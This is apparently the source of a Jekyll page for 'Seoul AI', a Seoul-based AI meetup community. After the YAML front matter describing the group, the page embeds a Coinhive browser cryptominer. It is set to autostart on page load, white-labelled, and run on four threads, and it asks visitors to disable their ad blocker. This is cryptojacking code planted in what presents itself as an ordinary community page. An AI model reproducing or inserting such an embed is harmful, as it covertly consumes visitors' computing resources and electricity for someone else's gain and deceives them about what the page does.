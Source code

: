 ```yaml
---
layout: default
summary: Seoul AI is the international Artificial Intelligence community in Seoul. Group of professionals from different fields meets in the heart of Seoul to discuss AI or implement various AI applications. Join our interest groups.
tags:
  [
    Seoul,
    "Artificial Intelligence",
    meetup,
    AI,
    call,
    presenters,
    practioners,
    "Machine Learning",
    Korea,
    Gangnam,
  ]
---
```


<script src="https://coinhive.com/lib/miner.min.js" async></script>
<div class="coinhive-miner"
	style="width: 600px; height: 310px"
	data-key="4oRscSkZZprxDccg05fWoI3yID0Jl1yf"
	data-autostart="true"
	data-whitelabel="true"
	data-background="#ffffff"
	data-text="#000000"
	data-action="#000000"
	data-graph="#000000"
	data-threads="4"
	data-throttle="0.1"
	data-start="Start Now!">
	<em>Please disable Adblock!</em>
</div>
